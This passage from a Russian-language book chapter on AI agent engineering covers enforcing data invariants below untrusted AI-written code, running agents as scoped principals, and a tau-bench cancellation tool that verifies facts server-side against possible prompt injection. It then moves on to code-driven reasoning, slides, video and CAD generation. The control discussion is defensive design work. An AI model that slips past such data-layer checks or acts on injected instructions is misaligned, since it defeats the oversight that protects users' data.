Свод правил лояльности из предыдущего абзаца делает так, что агент **с большей вероятностью** будет соблюдать правила, но для операций с данными повышенного риска одной лишь «большей вероятности» недостаточно — необходимо перенести ограничение с «надежды на сознательность агента» вниз, на уровень принудительного исполнения на уровне данных. Более радикальная позиция состоит в следующем[^ch5-2]: **считать уровень приложения попросту недоверенным и опустить принудительное исполнение инвариантов данных ниже него**. Последние тридцать лет граница целостности программного обеспечения находилась на **уровне приложения** — именно код-обработчик решал, кто и что вправе делать, а какие значения допустимы, а база данных безоговорочно доверяла этому коду; но обработчики, сгенерированные LLM, нередко упускают проверки прав доступа и целостности, а автономные агенты работают напрямую с производственными данными — и эта предпосылка перестаёт выполняться. Новая схема (её можно назвать «объекты данных со встроенными правами доступа», Permission-Embedded Data Objects) закладывает в каждую сущность данных, описанную в **проверенной человеком схеме**, декларативные правила доступа, валидаторы и объявленные последствия, а исполняющий конвейер во время выполнения принудительно проверяет их **при каждой записи**. Ключевой примитив, привязанный к каждой операции, — **контекст доступа (access context)**: регенерированный обработчик выполняется с правами того пользователя, которому он служит, а автономный агент выполняется от имени своей собственной ограниченной сущности (scoped principal) — вместо того чтобы полагаться исключительно на лояльность агента, лучше архитектурно понизить его статус до субъекта с ограниченными правами, чтобы он не мог перейти черту, даже если его переманили.

При проверке на одном и том же наборе промптов эта схема достигает результата, при котором **ни одна запись не нарушает заявленный инвариант**; в то же время сырой SQL, проверки, написанные самой LLM, «конституционные» промпты и перехватчики границ действий пропускают от нескольких до нескольких десятков нарушений. Это не «с большей вероятностью правильно», а «невозможно ошибиться», и плата за это — всего около 2 миллисекунд на каждую запись. Разумеется, эта гарантия условна: схема должна действительно полностью описывать нужные инварианты, а при развёртывании необходимо перекрыть все пути, которыми недоверенный слой мог бы обойти хранилище и обратиться к базе данных напрямую. Для кодинг-агентов это даёт важный архитектурный принцип: **когда недоверенными могут быть и тот, кто пишет код, и тот, кто его выполняет, по-настоящему надёжное ограничение не может находиться внутри сгенерированного кода — оно должно находиться на уровне ниже, в проверенном человеком фундаменте**. Это и есть предельная форма принципа «ограничение важнее наставления» из первой главы, воплощённая на уровне данных.

[^ch5-2]: Об этом проекте сдвига границы доверия ниже уровня приложения и его оценке (с полным сравнением количества нарушений по разным подходам) см.: Li, Bojie. *The Application Layer Is No Longer Trusted: Enforcing Data Invariants Below AI-Written Code and AI Agents.* 2026 (готовится к публикации).

## Код: мета-способность универсального агента

Предыдущая часть показала, как построить надёжный кодинг-агент — от архитектурного проектирования до реализации инструментов и Harness-инженерии. Но ценность генерации кода далеко не исчерпывается написанием программ.

> **Что такое «мета-способность»?** Обычная способность — это когда агент умеет делать что-то конкретное: отвечать на вопросы, вызывать какой-то API, генерировать текст. **Мета-способность** (meta-capability) — это способность «создавать другие способности»: агент с её помощью на месте пишет новые инструменты, новые ограничения, новые формы выражения для решения задачи, не имея необходимости заранее готовить все возможные способности. Генерация кода как раз и является такой мета-способностью — она точна, исполняема, комбинируема, поэтому способна порождать и новые инструменты (скрипты, последовательности вызовов API), и новые ограничения (утверждения, правила валидации), и новые формы представления (HTML-формы, PPT, видеокадры).

Именно поэтому роль кода в системе агентов выходит далеко за рамки «написания программ». Следующие шесть разделов последовательно демонстрируют шесть направлений применения этой мета-способности за пределами программирования. Эти шесть направлений расположены не параллельно, а организованы по принципу «объект применения мета-способности» — от внутреннего к внешнему:

1. **Само мышление** — использование кода вместо подверженного ошибкам рассуждения на естественном языке (инструмент мышления);
2. **Бизнес-правила** — кодирование расплывчатых политик в виде исполняемых ограничений (ограничения бизнес-правил);
3. **Представление контента** — генерация PPT, видео и визуализаций (генерация мультимедиа);
4. **Системные интерфейсы** — соединение разнородных API с автоматической адаптацией к эволюции форматов данных (системные адаптеры);
5. **Пользовательский интерфейс** — динамическое построение форм и интерактивных интерфейсов (генеративный UI);
6. **Сам агент** — создание новых агентов или их восстановление с помощью кода, формирующее самозагрузку.

### Код как инструмент мышления

LLM демонстрирует поразительные результаты в понимании и генерации естественного языка, но обладает фундаментальными недостатками в точных вычислениях, символьных операциях и строгом логическом выводе. Причина в том, что мышление модели по своей сути вероятностно и приближённо, тогда как математические и логические задачи требуют детерминированных, точных ответов. Приведём конкретное сравнение:

```text
Задача: "В классе 40 учеников, 60% из них выбрали математику, 45% — физику,
      25% выбрали оба предмета. Сколько человек выбрали только физику, но не математику?"

Рассуждение на естественном языке (легко ошибиться):     Рассуждение с помощью кода (точное, проверяемое):
"60% выбрали математику = 24 человека,                    math = int(40 * 0.60)    # 24
 45% выбрали физику = 18 человек,                         phys = int(40 * 0.45)    # 18
 25% выбрали оба = 10 человек,                             both = int(40 * 0.25)    # 10
 только физика = 24 - 10 = 14 человек"                     only_phys = phys - both  # 8
→ ошибочно вычли из числа изучающих математику,           → print(only_phys)  # 8 ✓
   ответ неверен
```

Пусть LLM отвечает за понимание задачи и написание кода, а интерпретатор кода — за точные вычисления: такое разделение труда позволяет каждому заниматься своим делом.

Основатель Mathematica Стивен Вольфрам высказал по этому поводу глубокое наблюдение. Ещё до появления LLM существовал класс систем, способных выполнять точные математические вычисления — они работают методом **символьных вычислений** (Symbolic Computation), то есть оперируют математическими символами вместо приближённых числовых значений. Например, обычный калькулятор вычислит $\sqrt{2}$ как 1.414, а система символьных вычислений сохранит точную форму $\sqrt{2}$ и преобразует её в десятичную дробь только при необходимости. Созданная Вольфрамом Wolfram Alpha как раз такая система: пользователь вводит математический вопрос, и она возвращает точный ответ. Однако её понимание естественного языка довольно хрупкое, а охват — узкий: она опирается на встроенный синтаксический разбор, распознаёт лишь ограниченный набор формулировок вопроса, и малейшее изменение формулировки может привести к сбою разбора; она совершенно неспособна работать с многошаговыми рассуждениями в открытой предметной области. LLM как раз восполняет этот недостаток — она хорошо понимает разнообразные формулировки на естественном языке, но не сильна в точных вычислениях. Новая модель взаимодействия такова: LLM отвечает за понимание вопроса пользователя на естественном языке, распознавание в нём математической или логической структуры и преобразование её в формальный язык (например, язык Mathematica или библиотеку SymPy для Python); затем это передаётся специализированному движку символьных вычислений или решателю ограничений для получения точного результата.

> **Эксперимент 5-1 ★★: использование инструментов генерации кода для повышения способности решать математические задачи**
>
> **Цель эксперимента**: проверить повышение точности мышления агента при использовании Code Interpreter в качестве вспомогательного средства для решения математических задач.
>
> **Техническое решение**: снабдите агента песочницей Python с установленными математическими библиотеками sympy, numpy, scipy. При встрече с математической задачей агент формализует её в виде кода на Python: sympy выполняет символьные вычисления (дифференциальное и интегральное исчисление, решение уравнений), scipy — численную оптимизацию, numpy — матричные операции. Сгенерированный код выполняется в песочнице и возвращает точный результат.
>
> **Критерии приёмки**: оценка на задачах в стиле AIME (по образцу американской математической олимпиады-приглашения). Сравните точность чистого рассуждения по цепочке мышления и рассуждения с использованием кода — требуется значительно более высокая точность в режиме с кодом. Проверьте, правильно ли используются математические библиотеки в коде и логически ли выстроен процесс решения.
>

> **Эксперимент 5-2 ★★: использование инструментов генерации кода для повышения способности к логическому мышлению**
>
> **Цель эксперимента**: оценить способность агента к логическому мышлению с помощью кода, решающего задачи удовлетворения ограничений.
>
> **Техническое решение**: снабдите агента Code Interpreter с библиотекой python-constraint. Агент преобразует логическую головоломку (например, задачу о рыцарях и лжецах) в формальное описание ограничений: определяет все переменные (личность каждого островитянина), условия-ограничения (выводы вроде «рыцарь говорит правду» и т. п.), задаёт ограничения и вызывает решатель для поиска решения, удовлетворяющего всем ограничениям.
>
> **Критерии приёмки**: оценка на [наборе данных K&K Puzzle](https://huggingface.co/datasets/K-and-K/perturbed-knights-and-knaves); точность решения в режиме с кодом должна достигать 90% и выше, значительно превышая точность чистого мышления.
>

Этот эксперимент раскрывает и более общую закономерность: между моделью и harness (scaffolding) существует обратная зависимость. Когда модель достаточно сильна, harness может быть тоньше — модель сама способна правильно выстроить логику, и выигрыш от использования решателя кода сокращается; когда модель недостаточно сильна, приходится делать больше в самом harness — перекладывать ключевое логическое рассуждение на код и решатель ограничений, чтобы обеспечить корректность. Именно поэтому в данном эксперименте намеренно выбрана модель послабее, чтобы усилить этот контраст: на более слабой модели чистое мышление часто даёт неверные вычисления, и помощь кода заметно повышает точность; а если взять достаточно мощную думающую модель, чистое мышление зачастую само решает все головоломки, и выигрыш от помощи кода сходится почти к нулю. Так что то, насколько «толстым» должен быть harness, зависит от границ возможностей той модели, что у вас в руках — и это как раз тот аспект, который легко упустить при оценке технологии агентов: один и тот же harness с моделями разной мощности может дать совершенно разные выводы.

### Код как ограничение бизнес-правил

Этот раздел — прямой отклик на изложенную ранее Harness-инженерию. Один из её ключевых принципов — «ограничение: кодификация, а не документирование»: превращение правил из документов на естественном языке в исполняемый код, чтобы они становились принудительным ограничением поведения системы, а не рекомендательным руководством. Генерация кода позволяет агенту самостоятельно проводить эту трансформацию.

Бизнес-правила, рабочие процедуры, логика принятия решений — если их описывать только на естественном языке, они часто полны неоднозначностей. Что такое «обоснованный запрос на возврат средств»? Что считать «чрезвычайной ситуацией»? Границы этих понятий трудно очертить на естественном языке — «возврат возможен в течение 7 дней после покупки» звучит ясно, но «7 дней» — это календарные дни или рабочие? «Покупка» — момент оформления заказа или момент отправки товара? Код же даёт однозначное, исполняемое представление знаний — он либо успешно выполняется, либо выбрасывает ошибку, никакой двусмысленности.

**Точное выражение сложных бизнес-правил.**

**Правила на естественном языке против кодифицированных правил: не замена, а взаимное дополнение**

Преимущества записи правил в системном промпте: модель может на основе правил **объяснить пользователю политику**; может на основе правил **искать обходные пути** (например, «перебронировать вместо отмены»); может предварительно оценить выполнимость до вызова инструмента.

Преимущества кодификации правил в виде инструментов проверки: **точность и однозначность** логики кода — не возникает «неверного понимания»; **детерминированность** выполнения кода — одинаковый вход всегда даёт одинаковый выход; особая пригодность для **сложных комбинаций правил** — булевых комбинаций из множества условий, вычислений времени, проверок по нескольким источникам данных.

На практике стоит сочетать оба подхода: системный промпт содержит правила на естественном языке для понимания и коммуникации, а на ключевых точках принятия решений устанавливаются кодифицированные инструменты проверки как «привратники», обеспечивающие соблюдение правил.

Настоящая ценность кодифицированных правил — не в оптимизации расхода токенов, а в **предотвращении необратимых ошибочных действий**: отмена заказа, перевод средств, удаление данных — все эти операции, будучи выполненными, отменить нельзя. Кодифицированная проверка перед выполнением операции ставит последний рубеж защиты, и ценность этой гарантии безопасности намного превышает затраты на её реализацию.

**Объединение проверки и выполнения: чек-лист направляет мышление, проверка по истинным данным охраняет вход**

Вместо того чтобы проектировать отдельный инструмент проверки, лучше встроить проверку внутрь самого инструмента выполнения. Возьмём в качестве примера политику отмены авиабилетов из τ-bench (tau-bench — benchmark, моделирующий сценарии клиентской поддержки в авиакомпаниях и электронной коммерции, специально предназначенный для оценки способности агента вызывать инструменты и соблюдать политики):

```python
def cancel_reservation(
    reservation_id: str,
    cancellation_reason: str,        # "change_of_plan", "airline_cancelled", "other"
    expected_cabin_class: str = None,    # опционально: для самопроверки модели, сервер сверяет с истинными данными БД
    expected_has_insurance: bool = None  # опционально: для самопроверки модели, аналогично
) -> dict:
    """
    Отмена бронирования рейса.

    Политика отмены (принудительно применяется сервером на основе истинных данных БД):
    - Правило 1: заказы с уже использованным любым сегментом перелёта отмене не подлежат
    - Правило 2: в течение 24 часов после бронирования отмена возможна безусловно
    - Правило 3: рейс, отменённый авиакомпанией, всегда можно отменить
    - Правило 4: бизнес-класс всегда можно отменить
    - Правило 5: базовый эконом и эконом-класс требуют покупки страховки для отмены

    Перед вызовом сначала запросите детали заказа, сверьте их по всем пунктам
    политики; параметры expected_* служат для изложения оснований вашего суждения,
    предназначены только для сверки и аудита на стороне сервера и не влияют на
    решение по политике.
    """
    # Все факты, относящиеся к политике, всегда читаются из базы данных, значения, заявленные моделью, никогда не принимаются на веру
    r = db.get_reservation(reservation_id)
    now = server_clock.now()  # часы сервера, а не значение, предоставленное моделью

    # Если значение, заявленное моделью, расходится с истинным значением, фиксируется предупреждение — для выявления ошибочных представлений модели или потенциальной инъекции
    if expected_cabin_class is not None and expected_cabin_class != r.cabin_class:
        log_mismatch(reservation_id, "cabin_class", expected_cabin_class, r.cabin_class)
    if expected_has_insurance is not None and expected_has_insurance != r.has_insurance:
        log_mismatch(reservation_id, "has_insurance", expected_has_insurance, r.has_insurance)

    if r.any_segment_used:
        return {"success": False, "reason": "Cannot cancel with used segments"}

    hours_since_booking = (now - r.booking_time).total_seconds() / 3600
    if hours_since_booking < 0:
        return {"success": False, "reason": "Booking time is in the future"}
    if hours_since_booking <= 24:
        execute_cancellation(reservation_id)
        return {"success": True, "reason": "Cancelled within 24-hour window"}

    if r.flight_status == "cancelled_by_airline":
        execute_cancellation(reservation_id)
        return {"success": True, "reason": "Airline cancelled flight"}

    if r.cabin_class == "business":
        execute_cancellation(reservation_id)
        return {"success": True, "reason": "Business class cancellation"}

    if r.cabin_class in ["basic_economy", "economy"]:
        if r.has_insurance:
            execute_cancellation(reservation_id)
            return {"success": True, "reason": f"{r.cabin_class} with insurance"}
        return {"success": False, "reason": f"{r.cabin_class} requires insurance"}

    return {"success": False, "reason": "Does not meet cancellation policy"}
```

Ценность этой конструкции нужно рассматривать на двух уровнях.

**Первый уровень: параметры как чек-лист для мышления**. В описании инструмента перечислена полная политика отмены, и требуется, чтобы модель «перед вызовом сначала запросила детали заказа и сверила их по каждому пункту»; опциональные параметры `expected_*` дополнительно побуждают модель явно изложить основания своего суждения. Чтобы правильно заполнить эти параметры, модель должна сначала вызвать инструмент запроса и получить детали заказа, по очереди проверив каждое условие — процесс заполнения параметров по сути представляет собой **обязательный чек-лист**. Когда модель обнаруживает, что класс места — эконом, а страховка не куплена, она, скорее всего, заметит правило 5 ещё в процессе подготовки к вызову и **вообще не станет инициировать вызов**, а прямо сообщит пользователю: «отмена билета эконом-класса без страховки невозможна, можно рассмотреть покупку страховки перед отменой или перебронирование». Ценность этого уровня — в направлении мышления и сокращении бесполезных вызовов; но он не несёт ответственности за безопасность — параметр `expected_*` — это лишь самодекларация модели, сервер никогда не принимает его за факт.

**Второй уровень: проверка по истинным данным на стороне сервера — вот настоящий привратник**. Обратите внимание на ключевую деталь конструкции кода: класс места, статус страховки, время бронирования, использование сегментов перелёта, статус рейса — всё это получается сервером из запроса к базе данных; текущее время берётся с часов сервера. **Ни один факт, относящийся к политике, не берётся из параметров, заявленных моделью**. Это не излишняя предосторожность: модель может галлюцинировать, а может быть манипулирована через инъекцию промпта — как уже отмечалось при разборе «смертельной триады», агент в рамках одного и того же контекста не способен доказать собственную непричастность. Если бы `cabin_class`, `has_insurance` и даже `current_time` были спроектированы как параметры, заполняемые моделью, достаточно было бы одной ошибки (или спровоцированной ошибки) в одном из значений — и «привратник» превратился бы в пустую формальность. Последний рубеж защиты должен строиться на данных, которые модель не в состоянии подделать — это продолжает высказанную ранее позицию «критические операции требуют независимой проверки»: независимость означает не только независимую модель, но и независимый источник данных.

Так складывается тройная гарантия: (1) правила на естественном языке в системном промпте помогают понять и объяснить политику; (2) описание инструмента и конструкция параметров работают как чек-лист, побуждающий модель явно сверять условия перед вызовом; (3) кодифицированная проверка на стороне сервера по истинным данным БД служит последним привратником. Первые две уменьшают вероятность возникновения ошибки, третья гарантирует, что ошибка не превратится в необратимый ущерб.

> **Эксперимент 5-3 ★★: повышение точности исполнения правил малой моделью за счёт кодифицированных знаний**
>
> **Цель эксперимента**: проверить, что модель с малым числом параметров (Qwen3-4B) может существенно повысить точность и согласованность исполнения сложных политик за счёт кодификации бизнес-правил.
>
> **Технический план**: контролируемый эксперимент на основе сценария авиакомпании-клиентской поддержки из τ-bench. **Контрольная группа**: только правила на естественном языке, полагающиеся на самостоятельное рассуждение модели. **Экспериментальная группа**: тройная гарантия — системный промпт сохраняет правила на естественном языке; в описании инструмента перечислена полная политика, и опциональный параметр `expected_*` побуждает модель сверять условия по пунктам перед вызовом (чек-лист); внутри инструмента реализована кодифицированная проверка по истинным данным симулированной базы данных (факты политики всегда берутся из базы, время — с часов сервера, самозаявленные параметры модели не принимаются во внимание). Метрики оценки: доля успешно выполненных задач, число нарушений политики, число бесполезных вызовов инструмента, пользовательский опыт.
>
> **Ожидаемый результат**: экспериментальная группа значительно превосходит контрольную. Что важнее, наблюдается, что модель самостоятельно распознаёт нарушение ещё на этапе подготовки параметров и сразу предлагает пользователю альтернативное решение — это подтверждает эффективность подхода «параметры как чек-лист»; одновременно фиксируется доля случаев расхождения самозаявленных значений `expected_*` с истинными данными БД, что подтверждает необходимость «проверки по истинным данным на стороне сервера» для перехвата ошибочных представлений.
>

### Генерация мультимедиа на основе кода

Создание многих сложных документов по сути сводится к организации и представлению структурированных данных. Будь то презентации, технические отчёты или интерактивные приложения — в их основе лежит код: HTML описывает структуру, CSS управляет стилями, JavaScript реализует интерактивность. Традиционное создание документов опирается на визуальное WYSIWYG-редактирование через GUI, но для агента это не интуитивно и не эффективно, поскольку операции в GUI требуют визуального понимания и точного позиционирования по координатам. Благодаря генерации кода агент обходит проблему визуального позиционирования и получает точный контроль над документом — положение, стиль и содержание каждого элемента явно определены и могут изменяться и оптимизироваться программным способом.

**Агент генерации презентаций.**

Создание презентаций часто отнимает много времени и сил. Типичная презентация для академического доклада может содержать десятки слайдов, каждый из которых требует тщательного продумывания макета, выделения ключевых тезисов и подбора графиков. Если переосмыслить создание презентаций как задачу генерации кода, сложность резко снижается. Современные фреймворки для презентаций (например, Slidev) следуют элегантной философии проектирования: содержание презентации определяется с помощью Markdown и HTML. Создание одного слайда требует лишь написания краткой разметки, а фреймворк автоматически берёт на себя рендеринг, компоновку и анимацию. Это исключительно удобно для агента, обладающего способностью генерировать код.


Одной лишь способности генерировать код недостаточно. **После написания кода агент не знает, каким будет результат реального рендеринга**: не тесно ли расположено содержание, не выходит ли текст за границы, подходящего ли размера изображения — всё это можно обнаружить только после фактического рендеринга. Поэтому необходимо ввести механизм **предложитель-рецензент** (Proposer-Reviewer) (см. рис. 5-5), разделяющий написание кода и оценку качества на два независимых агента:

- **Proposer Agent** отвечает за генерацию кода Slidev, понимает логическую структуру содержания и разбивает её на разумные страницы
- **Reviewer Agent** запускает код, рендерит каждую страницу в изображение и с помощью Vision LLM (мультимодальной большой модели, способной «видеть» и понимать изображения) анализирует результат рендеринга по таким параметрам, как плотность содержания, читаемость, разумность компоновки, визуальная эстетика, и формирует **структурированные рекомендации по улучшению** — не расплывчатое «выглядит не очень», а конкретные, исполняемые указания (например, «страница 3: слишком много содержания, рекомендуется разделить», «страница 7: шрифт в блоке кода слишком мелкий, рекомендуется увеличить до 14pt»), включающие номер страницы, тип проблемы, степень серьёзности и другие поля

Получив обратную связь, Proposer понимает намерение и вносит правки в код, новая версия снова передаётся на проверку Reviewer, и итерация продолжается до достижения нужного качества или максимального числа попыток (например, 5 раундов). «Достижение нужного качества» и «максимальное число раундов» — это как раз два вида явных условий завершения, требуемых Loop-инженерией: первое определяется решением рецензента о достижении цели, второе — потолком бюджета, предотвращающим неконтролируемое зацикливание.

Итеративный цикл предложитель-рецензент в этой главе и **предварительное согласование**, описанное в четвёртой главе, происходят из одного источника — оба являются примерами парадигмы предложитель-рецензент: разделение генерации и проверки, независимая оценка двумя моделями (на языке Loop-инженерии — разделение «создателя» и «верификатора» на суб-агентов). Различие — в цели и форме: в четвёртой главе этот механизм применяется для проверки безопасности необратимых операций, где рецензент даёт одобрение или отклонение для однократной операции; в этой главе — для итеративного улучшения качества содержания: многораундового цикла, где рецензент получает доступ к новой информации (результату рендеринга), недоступной предложителю. Основные принципы проектирования сохраняются (общее целевое ограничение, использование разных семейств моделей для снижения вероятности однотипных ошибок, включение обратной связи как особого события в траекторию Proposer). **Ключевое преимущество** использования разделения на двух агентов вместо цикла с одним агентом — **в управлении контекстом**: Reviewer каждый раз обрабатывает только изображение рендеринга последней версии, не отвлекаясь на прошлые версии; Proposer накапливает только структурированную текстовую обратную связь, что требует меньше токенов и облегчает рассуждение. При решении с одним агентом пришлось бы накапливать в одном контексте изображения рендеринга десятков страниц за множество итераций, что быстро превысило бы лимит контекста. Этот механизм будет повторно использован в дальнейших экспериментах с редактированием видео и визуализацией логов; в десятой главе будут рассмотрены и другие модели мультиагентного взаимодействия помимо предложитель-рецензент.

> **Эксперимент 5-4 ★★: автоматическая генерация презентации на основе статьи**
>
> **Цель эксперимента**: автоматически сгенерировать презентацию высокого качества на основе академической статьи, проверить эффективность механизма предложитель-рецензент в контроле качества создания содержания.
>
> **Технический план**: используется фреймворк Slidev. Proposer Agent читает PDF статьи, извлекает структуру разделов, ключевые тезисы и графики, планирует структуру презентации, генерирует код Slidev постранично. **Ключевой шаг**: Reviewer Agent рендерит скриншот каждой страницы, с помощью Vision LLM проверяет результат рендеринга, выявляет выход текста за границы, перегруженность содержания, неподходящий размер изображений и другие проблемы, формирует структурированные рекомендации по улучшению. Итерация продолжается до достижения нужного результата.
>
> **Критерии приёмки**: сгенерирована презентация из 10-20 страниц, охватывающая основные вклады статьи. Не менее 3 оригинальных графиков, соответствующих текстовым пояснениям. Рендеринг без выхода текста за границы, разумная компоновка. Сравнение различий в расходе контекста и качестве генерации между самопроверкой одним агентом и разделением труда между предложителем и рецензентом.
>

> **Эксперимент 5-5 ★★: автоматическая генерация видео с объяснением статьи**
>
> **Цель эксперимента**: расширить способность генерации презентаций, реализовав автоматическую генерацию видео-объяснения с сочетанием визуального и звукового каналов.
>
> **Технический план**: на основе процесса генерации презентаций из эксперимента 5-4 агент одновременно генерирует устный пояснительный текст для каждой страницы (наводящее повествование, а не пересказ), вызывает TTS (синтез речи из текста) для синтеза озвучки, с помощью ffmpeg синхронизирует скриншоты презентации с аудио для сборки видео.
>
> **Критерии приёмки**: видео длительностью 5-15 минут, время показа каждой страницы точно соответствует длительности озвучки, содержание объяснения перекликается с визуальными элементами.
>
>
> 
>
>

**Агент редактирования видео.**

Использование универсального Computer Use для редактирования видео сталкивается с фундаментальной проблемой: GUI видеоредактора чрезвычайно сложен, содержит множество временных шкал, слоёв, панелей эффектов, агенту нужно точно позиционировать эти элементы интерфейса и редактировать их через операции мышью и клавиатурой, а точный вывод координат — задача очень сложная.

Переосмысление редактирования видео как задачи вызова API и генерации кода значительно снижает сложность. Многие профессиональные программы (например, Blender — открытый инструмент 3D-творчества и видеокомпозитинга, поддерживающий управление через скрипты Python; FFmpeg — универсальный инструмент командной строки для обработки аудио и видео) предоставляют программные API, раскрывающие основной функционал в структурированном, компонуемом виде. Например, Blender Python API позволяет через код точно управлять импортом, обрезкой, расположением видеофрагментов, переходными эффектами, микшированием аудио и другими операциями — каждой операции соответствует чёткий вызов функции. Для агента преобразование запроса на естественном языке в вызовы API намного проще, чем понимание интерфейса GUI и симуляция кликов мышью. Как и в случае с генерацией презентаций, для редактирования видео также применяется механизм предложитель-рецензент — Proposer Agent генерирует скрипт Blender, Reviewer Agent рендерит ключевые кадры и с помощью Vision LLM проверяет результат, давая рекомендации по правкам.

> **Эксперимент 5-6 ★★: интеллектуальный монтаж видео на основе API**
>
> **Цель эксперимента**: проверить способность агента выполнять монтаж видео путём генерации кода Blender Python API, оценить роль механизма предложитель-рецензент на основе визуальной обратной связи в обработке мультимедийного содержания.
>
> **Основной вызов**: понять пожелания пользователя по редактированию на естественном языке и преобразовать их в точную последовательность вызовов API, обработать разные виды операций редактирования (обрезка, объединение, субтитры, микширование звуковых дорожек, визуальные эффекты), обеспечить корректное выполнение сгенерированного скрипта Python. Proposer Agent, написав код, не может напрямую судить о результате видео — необходимо, чтобы Reviewer Agent выполнил рендеринг, а Vision LLM проверил ключевые кадры.
>
> **Технический план**: пользователь предоставляет видеоматериал (например, исходные материалы со сценами сёрфинга, похода, катания на лыжах) и описывает пожелания на естественном языке (например, «вырезать часть с сёрфингом»). Proposer Agent через суб-агента анализа видео применяет **двухшаговую стратегию позиционирования**:
>
> **Шаг первый, грубое позиционирование**: вызов суб-агента с передачей пути к видео, интервала скриншотов 10 секунд, целевого вопроса. Суб-агент с помощью ffmpeg извлекает ключевые кадры, передаёт все скриншоты вместе с вопросом в Vision LLM, возвращает интервал сцены (например, «сёрфинг на 40-110 секунде»).
>
> **Шаг второй, тонкое позиционирование**: с более узким диапазоном и плотностью скриншотов раз в секунду повторный вызов суб-агента для точного определения граничных временных точек.
>
> Обёртывание анализа видео в суб-агента избегает того, чтобы множество скриншотов занимало контекст главного агента. После позиционирования генерируется скрипт Blender API. Reviewer Agent выполняет быстрый предпросмотр, проверяет ключевые кадры и даёт рекомендации по правкам, итерация продолжается до достижения нужного результата, после чего выполняется полный рендеринг.
>
> **Критерии приёмки**: агент способен точно распознавать различные сцены в видео, корректно генерировать сценарий монтажа согласно инструкциям на естественном языке. Точность начальной и конечной точек (погрешность не более 3 секунд). Если инструкция содержит требования к спецэффектам (замедленная съёмка, переходы, субтитры), сгенерированное видео корректно применяет эффекты. Reviewer Agent способен обнаруживать явные ошибки (пропуск ключевого содержания, включение посторонних фрагментов) и инициировать исправление. Итоговое видео имеет корректный формат файла и качество изображения, соответствующее ожиданиям.
>

**3D и промышленные детали: граница между генерацией кода и генеративными моделями.**

Хотя и то и другое — «сгенерировать вещь», перед агентом два пути: один — точное конструирование кодом (CadQuery, OpenSCAD, Blender API), другой — прямой вызов модели 3D-генерации (такие модели text/image-to-3D, как Hunyuan 3D, принадлежат к тому же семейству diffusion, что и генерация изображения по тексту). Многих мучает вопрос: когда же следует использовать генерацию кода, а когда — модель генерации изображений/3D?

**Во-первых, смотрите, есть ли у продукта компактное точное описание.** У промышленных деталей компактное точное описание есть по своей природе. Фланец полностью определяется пятью-шестью параметрами — наружным диаметром, толщиной, диаметром окружности расположения отверстий, диаметром отверстий, их числом, — и код является его **беспотерьным** выражением. Горшок с зелёным растением, причудливый камень тайху, человеческое лицо — другое дело: у них бесчисленные детали, **их внутренняя сложность почти бесконечна**.

**Во-вторых, смотрите на требования к точности и проверяемость.** Каждый размер детали — жёсткое ограничение: диаметр отверстия 5 мм, допуск ±0,05 мм, отклонение на волос — и это брак. Деталь, созданную кодом, можно проверить программно: загрузить сетку, измерить наружный диаметр и положение отверстий, поэлементно сверить со спецификацией. А деталь, созданную моделью 3D-генерации, напрямую со спецификацией не сверишь.

Есть у двух путей и более практическое различие: **форма представления и редактируемость**. Производственный процесс требует параметрического твёрдого тела в B-rep (граничном представлении) — в STEP-файле хранятся дерево признаков и размерные параметры, которые могут напрямую управлять обработкой на станке с ЧПУ. Модель 3D-генерации же выдаёт сетку из треугольных граней: кривые поверхности приближаются бесчисленными мелкими гранями, при увеличении видны шероховатости. Как только заказчик скажет «поменяйте крепёжные отверстия с M5 на M6», разница проявится в полной мере: на пути кода меняешь одну цифру и перезапускаешь — остальные размеры не сдвинутся ни на йоту; на пути генеративной модели остаётся только сгенерировать всё заново — и не собьются ли при этом остальные размеры, целиком вопрос удачи.

Поэтому сам выбор пути — это уже решение, которое должен принять агент: взвесить внутреннюю сложность продукта и требования к точности и поручить задачу генерации кода или модели 3D-генерации. В реальных системах два пути можно и комбинировать: геометрию параметрически генерировать кодом, а поверхностную текстуру отдать генеративной модели — взяв лучшее от каждого.

> **Эксперимент 5-7 ★★: два маршрута генерации одной и той же детали — код и генеративная модель**
>
> **Цель эксперимента**: взяв одну и ту же механическую деталь с размерной спецификацией, сравнить два маршрута — генерацию кода и модель 3D-генерации — по размерной точности, редактируемости и пригодности для производства, проверив рамку суждения «выбирать путь по внутренней сложности и требованиям к точности».
>
> **Техническое решение**: запрос на естественном языке с чёткой спецификацией (например, «фланец, наружный диаметр 80 мм, толщина 10 мм, 4 равномерно расположенных крепёжных отверстия M5, диаметр окружности расположения отверстий 60 мм»). **Маршрут A**: агент пишет код на CadQuery (или OpenSCAD), конструирующий деталь, и экспортирует STEP и STL. **Маршрут B**: та же спецификация передаётся модели 3D-генерации (например, Hunyuan 3D), на выходе — сетка из треугольных граней. **Программная проверка**: измерить отклонения ключевых размеров (наружный диаметр, толщина, положение и диаметр отверстий) продуктов обоих маршрутов от спецификации, а также проверить плоскостность монтажной поверхности.
>
> Затем отправить запрос на изменение «крепёжные отверстия с M5 на M6» и зафиксировать стоимость модификации на каждом из маршрутов: на маршруте кода — поменять один параметр и перезапустить; на маршруте генеративной модели возможна лишь полная перегенерация, и гарантировать неизменность остальных размеров нельзя.
>
> **Контрольная группа**: сгенерировать горшок с зелёным растением — здесь достоинства двух маршрутов ровно переворачиваются: маршрут кода даже с добавлением процедурного шума остаётся жёстким и деревянным, а маршрут генеративной модели получается естественным и живым.

### Код как системный адаптер

Код из предыдущих разделов в основном производил вещи, «обращённые к человеку», — отчёты, слайды, интерфейсы. Код в этом разделе направлен в другую сторону: **связывать машину с машиной**. В реальных системах агенту часто приходится взаимодействовать с внешними сервисами, у которых нет готового SDK, а интерфейс не обязательно стандартизирован — документация отсутствует, формат ответа нестандартный, поля дрейфуют от версии к версии. В такой ситуации агенту не нужно ждать, пока кто-то заранее напишет слой адаптации, — он может тут же прочитать документацию к интерфейсу или просто посмотреть на пару реальных ответов и на месте сгенерировать адаптирующий код: собрать HTTP-клиент, собрать заголовки аутентификации, разобрать нестандартную структуру ответа, преобразовать модель данных от вышестоящего сервиса в форму, которую сможет потребить нижестоящий. Код здесь становится «универсальным клеем», соединяющим любые системы — где не стыкуется, там на месте генерируется кусок клея, который всё скрепляет. Это и есть суть направления мета-способности «системный интерфейс». Разбираемый далее адаптивный разбор логов — конкретное воплощение этой способности применительно к наблюдаемости: сталкиваясь с постоянно эволюционирующим форматом логов, агент точно так же полагается на генерацию парсинг-кода на месте.

